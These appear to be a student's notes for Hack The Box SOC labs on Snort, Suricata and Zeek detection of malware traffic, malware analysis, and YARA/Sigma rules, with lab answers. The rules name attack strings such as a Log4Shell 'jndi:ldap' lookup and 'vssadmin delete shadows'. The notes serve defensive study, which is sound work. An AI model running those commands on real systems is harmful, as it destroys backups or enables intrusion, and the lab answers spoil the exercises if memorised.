Q: There is a file named trickbot.pcap in the /home/htb-student/pcaps directory, which contains network traffic related to a certain variation of the Trickbot malware. Enter the precise string that should be specified in the content keyword of the rule with sid 100299 within the local.rules file so that an alert is triggered as your answer.
$ ja3 -a --json /home/htb-student/pcaps/trickbot.pcap
$ vim local.rules
alert tls any any -> any any (msg:"Trickbot C2 SSL"; ja3.hash; content:"72a589da586844d7f0818ce684948eea"; sid:100299; rev:1;)
$ sudo suricata -r /home/htb-student/pcaps/trickbot.pcap -l . -k none
$ cat fast.log
Snort
Reading from a pcap file with the -r option or listening on an interface with -i will cause Snort to run in passive mode by default. If the DAQ supports inline, however, then users can specify the -Q flag to run Snort inline.
Default configuration files, namely snort.lua and snort_defaults.lua
$ sudo more /root/snorty/etc/snort/snort.lua
$ snort --help-modules
$ snort --help-config arp_spoof
# Passing (and validating) configuration files to Snort
$ snort -c /root/snorty/etc/snort/snort.lua --daq-dir /usr/local/lib/daq
DAQ: Data Acquisition Library
Snort Inputs
$ sudo snort -c /root/snorty/etc/snort/snort.lua --daq-dir /usr/local/lib/daq -r /home/htb-student/pcaps/icmp.pcap
$ sudo snort -c /root/snorty/etc/snort/snort.lua --daq-dir /usr/local/lib/daq -i ens160
Snort Rules
$ sudo vim /root/snorty/etc/snort/snort.lua
Snort Outputs
Alerts: When rules are configured, it is necessary to enable alerting (using the -A option) to view the details of detection events. There are multiple types of alert outputs available, including:
-A cmg: This option combines -A fast -d -e and displays alert information along with packet headers and payload.
-A u2: This option is equivalent to -A unified2 and logs events and triggering packets in a binary file, which can be used for post-processing with other tools.
-A csv: This option outputs fields in comma-separated value format, providing customization options and facilitating pcap analysis.
$ snort --list-plugins | grep logger
$ sudo snort -c /root/snorty/etc/snort/snort.lua --daq-dir /usr/local/lib/daq -r /home/htb-student/pcaps/icmp.pcap -A cmg
$ sudo snort -c /root/snorty/etc/snort/snort.lua --daq-dir /usr/local/lib/daq -r /home/htb-student/pcaps/icmp.pcap -R /home/htb-student/local.rules -A cmg
Q: There is a file named wannamine.pcap in the /home/htb-student/pcaps directory. Run Snort on this PCAP file and enter how many times the rule with sid 1000001 was triggered as your answer.
sudo snort -c /root/snorty/etc/snort/snort.lua --daq-dir /usr/local/lib/daq -r /home/htb-student/pcaps/wannamine.pcap -R /home/htb-student/local.rules -A cmg
detection
analyzed: 5146
hard_evals: 234
file_searches: 2
alerts: 234
total_alerts: 234
logged: 234
# Snort Rule Development Example 1: Detecting Ursnif (Inefficiently)
alert tcp any any -> any any (msg:"Possible Ursnif C2 Activity"; flow:established,to_server; content:"/images/", depth 12; content:"_2F"; content:"_2B"; content:"User-Agent|3a 20|Mozilla/4.0 (compatible|3b| MSIE 8.0|3b| Windows NT"; content:!"Accept"; content:!"Cookie|3a|"; content:!"Referer|3a|"; sid:1000002; rev:1;)
$ sudo snort -c /root/snorty/etc/snort/snort.lua --daq-dir /usr/local/lib/daq -R /home/htb-student/local.rules -r /home/htb-student/pcaps/ursnif.pcap -A cmg
$ scp htb-student@[TARGET IP]:/home/htb-student/pcaps/ursnif.pcap .
# Snort Rule Development Example 2: Detecting Cerber
alert udp $HOME_NET any -> $EXTERNAL_NET any (msg:"Possible Cerber Check-in"; dsize:9; content:"hi", depth 2, fast_pattern; pcre:"/^[af0-9]{7}$/R"; detection_filter:track by_src, count 1, seconds 60; sid:2816763; rev:4;)
$ sudo snort -c /root/snorty/etc/snort/snort.lua --daq-dir /usr/local/lib/daq -R /home/htb-student/local.rules -r /home/htb-student/pcaps/cerber.pcap -A cmg
# Snort Rule Development Example 3: Detecting Patchwork
alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"OISF TROJAN Targeted AutoIt FileStealer/Downloader CnC Beacon"; flow:established,to_server; http_method; content:"POST"; http_uri; content:".php?profile="; http_client_body; content:"ddager=", depth 7; http_client_body; content:"&r1=", distance 0; http_header; content:!"Accept"; http_header; content:!"Referer|3a|"; sid:10000006; rev:1;)
$ sudo snort -c /root/snorty/etc/snort/snort.lua --daq-dir /usr/local/lib/daq -R /home/htb-student/local.rules -r /home/htb-student/pcaps/patchwork.pcap -A cmg
# Snort Rule Development Example 4: Detecting Patchwork (SSL)
alert tcp $EXTERNAL_NET any -> $HOME_NET any (msg:"Patchwork SSL Cert Detected"; flow:established,from_server; content:"|55 04 03|"; content:"|08|toigetgf", distance 1, within 9; classtype:trojan-activity; sid:10000008; rev:1;)
$ sudo snort -c /root/snorty/etc/snort/snort.lua --daq-dir /usr/local/lib/daq -R /home/htb-student/local.rules -r /home/htb-student/pcaps/patchwork.pcap -A cmg
Q: There is a file named log4shell.pcap in the /home/htb-student/pcaps directory, which contains network traffic related to log4shell exploitation attempts, where the payload is embedded within the user agent. Enter the keyword that should be specified right before the content keyword of the rule with sid 10000098 within the local.rules file so that an alert is triggered as your answer. Answer format: [keyword];
# rule: http_header;
alert http any any -> any any (msg:"Log4shell Attempt Detected";http_header; content:"|24 7b|jndi|3a|ldap|3a 2f 2f|",fast_pattern, nocase; sid:10000098; rev:1;)
$ sudo snort -c /root/snorty/etc/snort/snort.lua --daq-dir /usr/local/lib/daq -R /home/htb-student/local.rules -r /home/htb-student/pcaps/log4shell.pcap -A cmg
Zeek
Zeek Logs conn.log: This log provides details about IP, TCP, UDP, and ICMP connections.
dns.log: Here, you'll find the details of DNS queries and responses.
http.log: This log captures the details of HTTP requests and responses.
ftp.log: Details of FTP requests and responses are logged here.
smtp.log: This log covers SMTP transactions, such as sender and recipient details.
# Intrusion Detection With Zeek Example 1: Detecting Beaconing Malware
$ /usr/local/zeek/bin/zeek -C -r /home/htb-student/pcaps/psempire.pcap
$ cat conn.log
# Intrusion Detection With Zeek Example 2: Detecting DNS Exfiltration
$ /usr/local/zeek/bin/zeek -C -r /home/htb-student/pcaps/dnsexfil.pcapng
$ cat dns.log
$ cat dns.log | /usr/local/zeek/bin/zeek-cut query | cut -d . -f1-7
# Intrusion Detection With Zeek Example 3: Detecting TLS Exfiltration
$ /usr/local/zeek/bin/zeek -C -r /home/htb-student/pcaps/tlsexfil.pcap
$ cat conn.log
$ cat conn.log | /usr/local/zeek/bin/zeek-cut id.orig_h id.resp_h orig_bytes | sort | grep -v -e '^$' | grep -v '-' | datamash -g 1,2 sum 3 | sort -k 3 -rn | head -10
# Intrusion Detection With Zeek Example 4: Detecting PsExec
$ /usr/local/zeek/bin/zeek -C -r /home/htb-student/pcaps/psexec_add_user.pcap
$ cat smb_files.log
$ cat dce_rpc.log
$ cat smb_mapping.log
Q1: There is a file named printnightmare.pcap in the /home/htb-student/pcaps directory, which contains network traffic related to the PrintNightmare (https://labs.jumpsec.com/printnightmare-network-analysis/) vulnerability. Enter the zeek log that can help us identify the suspicious spooler functions as your answer. Answer format: _.log
/usr/local/zeek/bin/zeek -C -r /home/htb-student/pcaps/printnightmare.pcap && ls

Q2: There is a file named revilkaseya.pcap in the /home/htb-student/pcaps directory, which contains network traffic related to the REvil ransomware Kaseya supply chain attack. Enter the total number of bytes that the victim has transmitted to the IP address 178.23.155.240 as your answer.
$ /usr/local/zeek/bin/zeek -C -r /home/htb-student/pcaps/revilkaseya.pcap
$ cat conn.log | grep "178.23.155.240"
$ cat conn.log | /usr/local/zeek/bin/zeek-cut id.orig_h id.resp_h orig_bytes | grep "178.23.155.240" | awk '{sum += $3} END {print sum}'This command efficiently filters and sums the bytes transmitted to the specified IP address directly from the conn.log file using standard Unix utilities (zeek-cut, grep, and awk).

1702+609=2311
Suricata Q: There is a file named pipekatposhc2.pcap in the /home/htb-student/pcaps directory, which contains network traffic related to WMI execution. Add yet another content keyword right after the msg part of the rule with sid 2024233 within the local.rules file so that an alert is triggered and enter the specified payload as your answer. Answer format: C____e
$ cat local.rules | grep 2024233
alert tcp any any -> any any (msg:"WMI Execution Detected"; content:"Win32_ProcessStartup"; content:"powershell"; sid:2024233; rev:2;)
In the context of WMI, when PowerShell scripts or commands are executed remotely, often there is a process creation event associated with it. The term Create can be a relevant keyword to include because it signifies the creation of processes, which is a common indicator in WMI-based execution scenarios.
alert tcp any any -> any any (msg:"WMI Execution Detected"; content:"Create"; content:"Win32_ProcessStartup"; content:"powershell"; sid:2024233; rev:2;)
# Add /home/htb-student/local.rules to rule-files
$ sudo vim /etc/suricata/suricata.yaml
$ sudo suricata -r /home/htb-student/pcaps/pipekatposhc2.pcap -l . -k none
$ cat fast.log
12/26/2019-08:04:55.353819 [**] [1:2024233:2] WMI Execution Detected [**] [Classification: (null)] [Priority: 3] {TCP} 192.168.1.46:58198 -> 192.168.1.62:49154
Snort Q: There is a file named wannamine.pcap in the /home/htb-student/pcaps directory, which contains network traffic related to the Overpass-the-hash technique which involves Kerberos encryption type downgrading. Replace XX with the appropriate value in the last content keyword of the rule with sid XXXXXXX within the local.rules file so that an alert is triggered as your answer.
In the context of Kerberos encryption types, each encryption type is identified by a specific number. RC4-HMAC encryption type is represented by the number 23 (0x17 in hexadecimal). When configuring an IDS/IPS rule to detect Kerberos encryption type downgrades to RC4, you need to specify the correct hexadecimal representation of the encryption type youre looking for.
Heres the breakdown:
RC4-HMAC encryption type is represented by the hexadecimal value 0x17. In the Snort/Suricata rule syntax, hexadecimal values are typically written without the 0x prefix.
Therefore, when youre modifying the rule to detect Kerberos encryption type downgrades to RC4, you should use the hexadecimal representation of RC4-HMAC, which is 17.
alert tcp $HOME_NET any -> any 88 (msg: "Kerberos Ticket Encryption Downgrade to RC4 Detected"; flow: no_stream, established, to_server; content: "|A1 03 02 01 05 A2 03 02 01 0A|", offset 12, depth 10; content: "|A1 03 02 01 02|", distance 5, within 6; content: "|A0 03 02 01 17|", distance 6, within 6; content: "krbtgt", distance 0; sid:9999999;)
Zeek Q: There is a file named neutrinogootkit.pcap in the /home/htb-student/pcaps directory, which contains network traffic related to the Neutrino exploit kit sending Gootkit malware. Enter the x509.log field name that includes the "MyCompany Ltd." trace as your answer.
/usr/local/zeek/bin/zeek -C -r /home/htb-student/pcaps/neutrinogootkit.pcap
$ grep "MyCompany Ltd." x509.log

Introduction to Malware Analysis
Windows Internals
Q1: In the C:\Samples\MalwareAnalysis directory of this section's target, there is a file called potato.exe. Use pestudio (C:\Tools\pestudio\pestudio) to examine this executable's sections and provide the entropy of the .text section as your answer.

Q2: In the C:\Samples\MalwareAnalysis directory of this section's target, there is a file called potato.exe. Use x64dbg (C:\Tools\x64dbg\release\x64) to open this executable and navigate to the Symbols tab. Enter the exported Kernel32.dll function whose name starts with "Attach". Answer format: Attach_

Static Analysis On Linux
Through static analysis, we endeavor to extract pivotal information which includes:
File type
File hash
Strings
Embedded elements
Packer information
Imports
Exports
Assembly code

Identifying The File Type
$ file /home/htb-student/Samples/MalwareAnalysis/Ransomware.wannacry.exe
Malware Fingerprinting
$ md5sum /home/htb-student/Samples/MalwareAnalysis/Ransomware.wannacry.exe
$ sha256sum /home/htb-student/Samples/MalwareAnalysis/Ransomware.wannacry.exe
Use the pefile Python module to compute the IMPHASH of a file
# imphash_calc.py
import sys
import pefile
import peutils
pe_file = sys.argv[1]
pe = pefile.PE(pe_file)
imphash = pe.get_imphash()
print(imphash)
$ python3 imphash_calc.py /home/htb-student/Samples/MalwareAnalysis/Ransomware.wannacry.exe
Fuzzy Hashing (SSDEEP)
The SSDEEP algorithm allocates more weight to longer sequences of common blocks, making it highly effective in identifying files that have undergone minor modifications, or are similar but not identical, such as different variations of a malicious sample.
$ ssdeep /home/htb-student/Samples/MalwareAnalysis/Ransomware.wannacry.exe
The command line arguments -pb can be used to initiate matching mode in SSDEEP (while we are on the directory where the malware samples are stored - /home/htb-student/Samples/MalwareAnalysis in our case).
$ ssdeep -pb *
Section Hashing (Hashing PE Sections)
Section hashing, (hashing PE sections) is a powerful technique that allows analysts to identify sections of a Portable Executable (PE) file that have been modified. This can be particularly useful for identifying minor variations in malware samples, a common tactic employed by attackers to evade detection.
By applying section hashing, security analysts can identify parts of a PE file that have been tampered with or altered. This can help identify similar malware samples, even if they have been slightly modified to evade traditional signature-based detection methods.
# section_hashing.py
import sys
import pefile
pe_file = sys.argv[1]
pe = pefile.PE(pe_file)
for section in pe.sections:
print (section.Name, "MD5 hash:", section.get_hash_md5())
print (section.Name, "SHA256 hash:", section.get_hash_sha256())
$ python3 section_hashing.py /home/htb-student/Samples/MalwareAnalysis/Ransomware.wannacry.exe
String Analysis
# -n specifies to print a sequence of at least the number specified - in our case, 15.
$ strings -n 15 /home/htb-student/Samples/MalwareAnalysis/dharma_sample.exe
$ floss /home/htb-student/Samples/MalwareAnalysis/dharma_sample.exe
Unpacking UPX-packed Malware
Ultimate Packer for Executables (UPX)
In our static analysis, we might stumble upon a malware sample that's been compressed or obfuscated using a technique referred to as packing
$ strings /home/htb-student/Samples/MalwareAnalysis/packed/credential_stealer.exe
# unpack the malware using the UPX tool
$ upx -d -o unpacked_credential_stealer.exe credential_stealer.exe
$ strings unpacked_credential_stealer.exe
Static Analysis On Windows
Identifying The File Type
CFF Explorer
Malware Fingerprinting
Get-FileHash -Algorithm MD5 C:\Samples\MalwareAnalysis\Ransomware.wannacry.exe
Get-FileHash -Algorithm SHA256 C:\Samples\MalwareAnalysis\Ransomware.wannacry.exe
File Hash Lookup
VirusTotal
Fuzzy Hashing (SSDEEP)
ssdeep.exe C:\Samples\MalwareAnalysis\Ransomware.wannacry.exe
Section Hashing (Hashing PE Sections)
python code same as analysis on Linux
and
pestudio
String Analysis
strings C:\Samples\MalwareAnalysis\dharma_sample.exe
floss shell.exe
Unpacking UPX-packed Malware
upx -d -o unpacked_credential_stealer.exe C:\Samples\MalwareAnalysis\packed\credential_stealer.exeupx -d -o unpacked_credential_stealer.exe C:\Samples\MalwareAnalysis\packed\credential_stealer.exe
Dynamic Analysis
In dynamic analysis, we observe and interpret the behavior of the malware while it is running, or in action.
Dynamic Analysis With Noriben
Noriben uses ProcMon to capture system events but then filters and analyzes this data to extract meaningful information and pinpoint malicious activities.
python .\Noriben.py
manually launch ProcMon (available at C:\Tools\sysinternals) using its default, more inclusive, configuration.
Q: Use Noriben to perform dynamic analysis on shell.exe. Enter the IP address shell.exe pings as your answer.
127.0.0.1
Code Analysis
Reverse Engineering & Code Analysis
A Disassembler is our tool of choice when we wish to conduct a static analysis of the code, meaning that we need not execute the code. Some prime examples of disassemblers include IDA, Cutter, and Ghidra.
A Debugger, on the other hand, serves a dual purpose. Like a disassembler, it decodes machine code into assembly instructions. Additionally, it allows us to execute code in a controlled manner, proceeding instruction by instruction, skipping to specific locations, or halting the execution flow at designated points using breakpoints. Examples of debuggers include x32dbg, x64dbg, IDA, and OllyDbg.
Recognizing the Main Function in IDA
The start function, which is the program's entry point and is generally responsible for setting up the runtime environment before invoking the actual main function.
Get-ChildItem env:TEMP
Q: Download additional_samples.zip from this module's resources (available at the upper right corner) and transfer the .zip file to this section's target. Unzip additional_samples.zip (password: infected) and use IDA to analyze orange.exe. Enter the registry key that it modifies for persistence as your answer. Answer format: SOFTWARE____
push offset aNR ; "n\\R"
push offset aRsi ; "rsi"
push offset aRent ; "rent"
push offset aCu ; "\\Cu"
push offset aOw ; "ow"
push offset aTW ; "t\\W"
push offset aRoso ; "roso"
push offset aWareM ; "ware\\M"
lea eax, [ebp+74h+SubKey]
push offset aSoftSicSfSindS ; "Soft%sic%sf%sind%ss%sr%sVe%so%sun"
push eax ; LPSTR
Replace %s use the strings above
Software\Microsoft\Windows\CurrentVersion\Run
Software\Microsoft\Windows\CurrentVersion\Run
Simulating Internet Services
$ sudo nano /etc/inetsim/inetsim.conf
# Our machine's/VM's TUN IP: Host Kali's IP
service_bind_address <Our machine's/VM's TUN IP>
dns_default_ip <Our machine's/VM's TUN IP>
dns_default_hostname www
dns_default_domainname iuqerfsodp9ifjaposdfjhgosurijfaewrwergwea.com
$ sudo vim /etc/default/inetsim
ENABLED=1
$ sudo inetsim
1EF56DA0000 Configuring INetSim
Creating Detection Rules
YARA (Yet Another Recursive Acronym)
$ mkdir /home/htb-student/Samples/MalwareAnalysis/Test
$ cp /home/htb-student/Samples/MalwareAnalysis/shell.exe /home/htb-student/Samples/MalwareAnalysis/Test/
$ sudo python3 yarGen.py -m /home/htb-student/Samples/MalwareAnalysis/Test/
$ cat yargen_rules.yar
$ yara /home/htb-student/yarGen-0.23.4/yargen_rules.yar /home/htb-student/Samples/MalwareAnalysis/
home_htb_student_Samples_MalwareAnalysis_Test_shell /home/htb-student/Samples/MalwareAnalysis//shell.exe
Yara documentation : https://yara.readthedocs.io/en/stable/writingrules.html
Yara resources - https://github.com/InQuest/awesome-yara
The DFIR Report - https://github.com/The-DFIR-Report/Yara-Rules
Sigma
Sigma documentation : https://github.com/SigmaHQ/sigma/wiki/Specification
Sigma resources - https://github.com/SigmaHQ/sigma/tree/master/rules
The DFIR Report - https://github.com/The-DFIR-Report/Sigma-Rules/tree/main/rules
JavaScript Deobfuscation
https://jsconsole.com
https://obfuscator.io
There are many other JavaScript obfuscators, like JJ Encode or AA Encode. However, such obfuscators usually make code execution/compilation very slow, so it is not recommended to be used unless for an obvious reason, like bypassing web filters or restrictions.
Deobfuscate
UnPacker: https://matthewfl.com/unPacker.html
$ curl -s http://SERVER_IP:PORT/ -X POST -d "param1=sample"
Hex Encode
$ echo https://www.hackthebox.eu/ | xxd -p
Hex Decode
$ echo 68747470733a2f2f7777772e6861636b746865626f782e65752f0a | xxd -p -r
Caesar/Rot13
Caesar cipher shifts each letter by a fixed number.
Rot13 shifts each character 13 times forward.
# Rot13 Encode
$ echo https://www.hackthebox.eu/ | tr 'A-Za-z' 'N-ZA-Mn-za-m'
# Rot13 Decode
$ echo uggcf://jjj.unpxgurobk.rh/ | tr 'A-Za-z' 'N-ZA-Mn-za-m'
Cipher Identifier can help us automatically determine the type of encoding.
$ curl -s http://94.237.63.132:48085/serial.php -X POST -d "serial=7h15_15_a_s3cr37_m3554g3"
YARA & Sigma for SOC Analysts
Both YARA and Sigma rules grant SOC analysts potent capabilities to detect and respond to security threats. YARA excels in file and memory analysis, as well as pattern matching, whereas Sigma is particularly adept at log analysis and SIEM systems.
YARA rules: https://github.com/Yara-Rules/rules/tree/master/malware, https://github.com/mikesxrs/Open-Source-YARA-rules/tree/master
Sigma rules https://github.com/SigmaHQ/sigma/tree/master/rules, https://github.com/joesecurity/sigma-rules, https://github.com/mdecrevoisier/SIGMA-detection-rules
YARA and YARA Rules
Each rule in YARA starts with the keyword rule followed by a rule identifier. Rule identifiers are case sensitive where the first character cannot be a digit, and cannot exceed 128 characters.
The following keywords are reserved and cannot be used as an identifier:
rule Ransomware_WannaCry {
meta:
author = "Madhukar Raina"
version = "1.0"
description = "Simple rule to detect strings from WannaCry ransomware"
reference = "https://www.virustotal.com/gui/file/ed01ebfbc9eb5bbea545af4d01bf5f1071661840480439c6e5babe8e080e41aa/behavior"
strings:
$wannacry_payload_str1 = "tasksche.exe" fullword ascii
$wannacry_payload_str2 = "www.iuqerfsodp9ifjaposdfjhgosurijfaewrwergwea.com" ascii
$wannacry_payload_str3 = "mssecsvc.exe" fullword ascii
condition:
all of them
}
# yara
condition:
filesize < 100KB and (uint16(0) == 0x5A4D or uint16(0) == 0x4D5A)
This condition also specifies that the first 2 bytes of the file must be either 0x5A4D (ASCII MZ) or 0x4D5A (ASCII ZM), by using uint16(0)
uint16: This indicates the data type to be extracted, which is a 16-bit unsigned integer (2 bytes).
(0): The value inside the parentheses represents the offset from where the extraction should start. In this case, 0 means the function will extract the 16-bit value starting from the beginning of the data being scanned. The condition uses uint16(0) to compare the first 2 bytes of the file with specific values.
Developing YARA Rule
rule UPX_packed_executable
{
meta:
description = "Detects UPX-packed executables"
strings:
$string_1 = "UPX0"
$string_2 = "UPX1"
$string_3 = "UPX2"
condition:
all of them
}
yarGen is our go-to tool when we need an automatic YARA rule generator.
$ python3 yarGen.py -m /home/htb-student/temp -o htb_sample.yar
Example 1: ZoxPNG RAT Used by APT17
/*
Yara Rule Set
Author: Florian Roth
Date: 2017-10-03
Identifier: APT17 Oct 10
Reference: https://goo.gl/puVc9q
*/
/* Rule Set ----------------------------------------------------------------- */
import "pe"
rule APT17_Malware_Oct17_Gen {
meta:
description = "Detects APT17 malware"
license = "Detection Rule License 1.1 https://github.com/Neo23x0/signature-base/blob/master/LICENSE"
author = "Florian Roth (Nextron Systems)"
reference = "https://goo.gl/puVc9q"
date = "2017-10-03"
hash1 = "0375b4216334c85a4b29441a3d37e61d7797c2e1cb94b14cf6292449fb25c7b2"
hash2 = "07f93e49c7015b68e2542fc591ad2b4a1bc01349f79d48db67c53938ad4b525d"
hash3 = "ee362a8161bd442073775363bf5fa1305abac2ce39b903d63df0d7121ba60550"
strings:
$x1 = "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NETCLR 2.0.50727)" fullword ascii
$x2 = "http://%s/imgres?q=A380&hl=en-US&sa=X&biw=1440&bih=809&tbm=isus&tbnid=aLW4-J8Q1lmYBM" ascii
$s1 = "hWritePipe2 Error:%d" fullword ascii
$s2 = "Not Support This Function!" fullword ascii
$s3 = "Cookie: SESSIONID=%s" fullword ascii
$s4 = "http://0.0.0.0/1" fullword ascii
$s5 = "Content-Type: image/x-png" fullword ascii
$s6 = "Accept-Language: en-US" fullword ascii
$s7 = "IISCMD Error:%d" fullword ascii
$s8 = "[IISEND=0x%08X][Recv:] 0x%08X %s" fullword ascii
condition:
( uint16(0) == 0x5a4d and filesize < 200KB and (
pe.imphash() == "414bbd566b700ea021cfae3ad8f4d9b9" or
1 of ($x*) or
6 of them
)
)
}
1 of ($x*): At least one of the $x strings (from the strings section) must be present in the file.
6 of them: Requires that at least six of the strings (from both $x and $s categories) be found within the scanned file.
Example 2: Neuron Used by Turla
Perform .NET "reversing" using the monodis tool as follows.
$ monodis --output=code Microsoft.Exchange.Service.exe
$ cat code
dnSpy is a .NET debugger and assembly editor like.
rule neuron_functions_classes_and_vars {
meta:
description = "Rule for detection of Neuron based on .NET functions and class names"
author = "NCSC UK"
reference = "https://www.ncsc.gov.uk/file/2691/download?token=RzXWTuAB"
reference2 = "https://www.ncsc.gov.uk/alerts/turla-group-malware"
hash = "d1d7a96fcadc137e80ad866c838502713db9cdfe59939342b8e3beacf9c7fe29"
strings:
$class1 = "StorageUtils" ascii
$class2 = "WebServer" ascii
$class3 = "StorageFile" ascii
$class4 = "StorageScript" ascii
$class5 = "ServerConfig" ascii
$class6 = "CommandScript" ascii
$class7 = "MSExchangeService" ascii
$class8 = "W3WPDIAG" ascii
$func1 = "AddConfigAsString" ascii
$func2 = "DelConfigAsString" ascii
$func3 = "GetConfigAsString" ascii
$func4 = "EncryptScript" ascii
$func5 = "ExecCMD" ascii
$func6 = "KillOldThread" ascii
$func7 = "FindSPath" ascii
$dotnetMagic = "BSJB" ascii
condition:
(uint16(0) == 0x5A4D and uint16(uint32(0x3c)) == 0x4550) and $dotnetMagic and 6 of them
}
uint16(uint32(0x3c)) == 0x4550: A two-step check. First, it reads a 32-bit (4 bytes) value from offset 0x3c of the file. In PE files, this offset typically contains a pointer to the PE header. It then checks whether the two bytes at that pointer are PE (0x4550), indicating a valid PE header. This ensures the file is a legitimate PE format and not a corrupted or obfuscated one.
Example 3: Stonedrill Used in Shamoon 2.0 Attacks
Encrypted/compressed/obfuscated in PE files usually means high entropy. We can use the entropy_pe_section.py script to check if our sample's resource section contains anything encrypted/compressed as follows.
# entropy_pe_section.py
#https://cocomelonc.github.io/malware/2022/11/05/malware-analysis-6.html
import argparse
import math
import pefile
def shannon_entropy(data):
# 256 different possible values
possible = dict(((chr(x), 0) for x in range(0, 256)))
for byte in data:
possible[chr(byte)] +=1
data_len = len(data)
entropy = 0.0
# compute
for i in possible:
if possible[i] == 0:
continue
p = float(possible[i] / data_len)
entropy -= p * math.log(p, 2)
return entropy
def sections_entropy(path):
pe = pefile.PE(path)
for section in pe.sections[:4]:
print(section.Name.decode('utf-8'))
print("\tvirtual address: " + hex(section.VirtualAddress))
print("\tvirtual size: " + hex(section.Misc_VirtualSize))
print("\traw size: " + hex(section.SizeOfRawData))
print ("\tentropy: " + str(shannon_entropy(section.get_data())))
if __name__ == "__main__":
parser = argparse.ArgumentParser()
parser.add_argument('-f','--file', required = True, help = "target file")
args = vars(parser.parse_args())
target_file = args['file']
with open(target_file, 'rb') as f:
sections_entropy(target_file)
$ python3 entropy_pe_section.py -f /home/htb-student/Samples/YARASigma/sham2.exe
import "pe"
import "math"
rule susp_file_enumerator_with_encrypted_resource_101 {
meta:
copyright = "Kaspersky Lab"
description = "Generic detection for samples that enumerate files with encrypted resource called 101"
reference = "https://securelist.com/from-shamoon-to-stonedrill/77725/"
hash = "2cd0a5f1e9bcce6807e57ec8477d222a"
hash = "c843046e54b755ec63ccb09d0a689674"
version = "1.4"
strings:
$mz = "This program cannot be run in DOS mode."
$a1 = "FindFirstFile" ascii wide nocase
$a2 = "FindNextFile" ascii wide nocase
$a3 = "FindResource" ascii wide nocase
$a4 = "LoadResource" ascii wide nocase
condition:
uint16(0) == 0x5A4D and
all of them and
filesize < 700000 and
pe.number_of_sections > 4 and
pe.number_of_signatures == 0 and
pe.number_of_resources > 1 and pe.number_of_resources < 15 and for any i in (0..pe.number_of_resources - 1):
( (math.entropy(pe.resources[i].offset, pe.resources[i].length) > 7.8) and pe.resources[i].id == 101 and
pe.resources[i].length > 20000 and
pe.resources[i].language == 0 and
not ($mz in (pe.resources[i].offset..pe.resources[i].offset + pe.resources[i].length))
)
}
How to Write Simple but Sound Yara Rules - Part 1
How to Write Simple but Sound Yara Rules - Part 2
How to Write Simple but Sound Yara Rules - Part 3
Hunting Evil with YARA (Windows Edition)
Hunting for Malicious Executables on Disk with YARA
$ hexdump dharma_sample.exe -C | grep crysis -n3
$ hexdump dharma_sample.exe -C | grep sssssbsss -n3
yara64.exe -s C:\Rules\yara\dharma_ransomware.yar C:\Samples\YARASigma\ -r 2>null
Hunting for Evil Within Running Processes with YARA
YARA Rule Source: https://github.com/cuckoosandbox/community/blob/master/data/yara/shellcode/metasploit.yar
# execute the injection
.\htb_sample_shell.exe
Get-Process | ForEach-Object { "Scanning with Yara for meterpreter shellcode on PID "+$_.id; & "yara64.exe" "C:\Rules\yara\meterpreter_shellcode.yar" $_.id }
yara64.exe C:\Rules\yara\meterpreter_shellcode.yar 9084 --print-strings
Hunting for Evil Within ETW Data with YARA
Event Tracing For Windows (ETW)
YARA Rule Scanning on ETW (Using SilkETW)
.\SilkETW.exe -h
# Example 1: YARA Rule Scanning on Microsoft-Windows-PowerShell ETW Data
.\SilkETW.exe -t user -pn Microsoft-Windows-PowerShell -ot file -p ./etw_ps_logs.json -l verbose -y C:\Rules\yara -yo Matches
Invoke-Command -ScriptBlock {Write-Host "Hello from PowerShell"}
# Example 2: YARA Rule Scanning on Microsoft-Windows-DNS-Client ETW Data
.\SilkETW.exe -t user -pn Microsoft-Windows-DNS-Client -ot file -p ./etw_dns_logs.json -l verbose -y C:\Rules\yara -yo Matches
ping iuqerfsodp9ifjaposdfjhgosurijfaewrwergwea.com
Hunting Evil with YARA (Linux Edition)
Even if we can't access the machine, in many cases, a memory capture (or memory dump) from the suspicious system can be handed over to us in the Security Operations Center (SOC). It's akin to receiving a snapshot of everything happening in the system at a particular moment.
Hunting for Evil Within Memory Images with YARA
-
Create YARA Rules: Either develop bespoke YARA rules or lean on existing ones that target memory-based malware traits or dubious behaviors.
-
Compile YARA Rules: Compile the YARA rules into a binary format using the yarac tool (YARA Compiler). This step creates a file containing the compiled YARA rules with a .yrc extension. This step is optional, as we can use the normal rules in text format as well.
-
Obtain Memory Image: Capture a memory image using tools such as DumpIt, MemDump, Belkasoft RAM Capturer, Magnet RAM Capture, FTK Imager, and LiME (Linux Memory Extractor).
-
Memory Image Scanning with YARA: Use the yara tool and the compiled YARA rules to scan the memory image for possible matches.
$ yara /home/htb-student/Rules/yara/wannacry_artifacts_memory.yar /home/htb-student/MemoryDumps/compromised_system.raw --print-strings
# Single Pattern YARA Scanning Against a Memory Image
$ vol.py -f /home/htb-student/MemoryDumps/compromised_system.raw yarascan -U "www.iuqerfsodp9ifjaposdfjhgosurijfaewrwergwea.com"
# Multiple YARA Rule Scanning Against a Memory Image
$ vol.py -f /home/htb-student/MemoryDumps/compromised_system.raw yarascan -y /home/htb-student/Rules/yara/wannacry_artifacts_memory.yar
the -U option allows us to directly specify a YARA rule string within the command-line, while the -y option is used to specify the path to a file containing one or more YARA rules.
Q: Study the following resource https://blogs.vmware.com/security/2022/09/threat-report-illuminating-volume-shadow-deletion.html to learn how WannaCry performs shadow volume deletion. Then, use yarascan when analyzing "/home/htb-student/MemoryDumps/compromised_system.raw" to identify the process responsible for deleting shadows. Enter the name of the process as your answer.
$ /usr/local/bin/vol.py -f /home/htb-student/MemoryDumps/compromised_system.raw yarascan -U "vssadmin"
````

`@WanaDecryptor@`
OR
```sh
# yara rule
rule ShadowVolumeDeletion
{
meta:
description = "Detects shadow volume deletion activities"
author = "Ying Bai"
last_modified = "2025-01-20"
strings:
$vssadmin_delete = "vssadmin delete shadows"
$vssadmin_delete_all = "vssadmin delete shadows /all"
$wmic_shadow_delete = "wmic shadowcopy delete"
$wmic_shadow_delete_all = "wmic shadowcopy delete /all"
$cmd_args = "-delete"
condition:
any of ($vssadmin_delete, $vssadmin_delete_all, $wmic_shadow_delete, $wmic_shadow_delete_all) or
any of ($cmd_args)
}
$ /usr/local/bin/vol.py -f /home/htb-student/MemoryDumps/compromised_system.raw yarascan -y /home/htb-student/Rules/yara/shadow_volume_deletion.yar
Hunting Evil with YARA (Web Edition)
Hunting for Evil Within Online Datasets with YARA
Test yara rules
Sigma and Sigma Rules
